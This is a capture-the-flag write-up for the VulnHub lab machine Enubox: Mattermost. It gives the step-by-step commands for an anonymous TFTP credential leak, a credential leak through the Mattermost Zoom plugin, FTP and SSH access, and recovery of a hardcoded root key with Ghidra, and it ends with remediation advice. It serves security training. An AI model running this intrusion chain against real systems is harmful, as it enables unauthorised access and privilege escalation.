





# Enubox: Mattermost — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.0.110 |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Goal** | local.txt (root flag) |
| **Source** | [HackingArticles](https://www.hackingarticles.in/enubox-mattermost-vulnhub-walkthrough/) |

## Attack Summary

Enubox: Mattermost chains TFTP anonymous access (leaking admin credentials), a misconfigured Mattermost Zoom plugin (leaking FTP credentials), FTP access to an SSH password, and finally a custom binary with a hardcoded numeric key reverse-engineered with Ghidra to obtain a root shell.

## Methodology

1. Network scan (TCP + UDP) — find Mattermost, TFTP, FTP
2. TFTP anonymous read of README.md (admin credentials)
3. Mattermost admin panel — enable Zoom plugin, extract FTP credentials
4. FTP login — retrieve SSH password from `message` file
5. SSH access as `mattermost`
6. Binary reverse engineering with Ghidra (hex constant comparison)
7. Root shell via correct key input

---

## Step 1: Reconnaissance

```bash
netdiscover -r 192.168.0.0/24
nmap -sT -sU -A $TARGET
```



Key services found:

| Port | Service |
|---|---|
| 21 | FTP (vsftpd) |
| 22 | SSH (OpenSSH) |
| 69/UDP | TFTP |
| 80 | HTTP (Apache) |
| 8065 | Mattermost |

---

## Step 2: TFTP Anonymous Access

```bash
tftp $TARGET
tftp> get README.md
tftp> quit
cat README.md
```



The file contains Mattermost admin credentials:

```
Username: admin
Password: ComplexPassword0!
```

---

## Step 3: Mattermost Admin Panel

Navigate to `http://$TARGET:8065/login` and log in as `admin` / `ComplexPassword0!`.

Go to **System Console > Plugins > Zoom**. Enable the plugin, then open its configuration. Change the Zoom API URL from `localhost` to `$TARGET`. The plugin attempts to connect and exposes an FTP credential in the response:

```
FTP User: ftpuser
FTP Pass: ftppassword
```



---

## Step 4: FTP Access

```bash
ftp $TARGET
Name: ftpuser
Password: ftppassword
ftp> dir
ftp> cd users/mattermost
ftp> get message
ftp> bye
cat message
```



The `message` file contains the SSH password for user `mattermost`:

```
Password: Welcome!!
```

---

## Step 5: SSH Access and Binary Discovery

```bash
ssh mattermost@$TARGET
ls
cd Desktop/
ls
cat README.md   # contains a secret key string
./secret        # binary requiring a numeric key
```

The binary outputs an "expired" error with the key from README.md. The binary requires analysis.

---

## Step 6: Binary Reverse Engineering with Ghidra

Transfer the binary to the attacker machine:

```bash
# On target
php -S 0.0.0.0:8080

# On attacker
wget http://$TARGET:8080/secret
```

Open the binary in Ghidra. Decompile the `main` function. The code compares the user input against the hex constant `0xf447`. Convert to decimal:

```bash
echo $((0xf447))
# Output: 62535
```



---

## Step 7: Root Shell

```bash
./secret
# Enter: 62535
whoami
# root
cd /root/Desktop
cat local.txt
```

Root access obtained. Flag captured.

---

## Lessons Learned

- TFTP allows anonymous read by default and should never be left exposed with sensitive files.
- Plugin integrations in collaboration platforms can leak downstream service credentials through their configuration UI.
- Binary reverse engineering with Ghidra reveals hardcoded secrets that cannot be seen by normal execution.
- Serving application files over HTTP from the target enables quick transfer for offline analysis.

---

## Remediation

| Vulnerability | Fix |
|---|---|
| TFTP anonymous access with credentials | Disable TFTP if not needed; never store credentials in TFTP-accessible files |
| Mattermost plugin credential disclosure | Sanitize plugin configuration responses; avoid storing credentials in plugin config |
| Weak FTP credentials | Enforce strong passwords; restrict FTP to necessary accounts |
| Hardcoded root key in binary | Never embed authentication secrets in binaries; use proper authentication mechanisms |
| SSH password authentication | Prefer key-based SSH authentication |
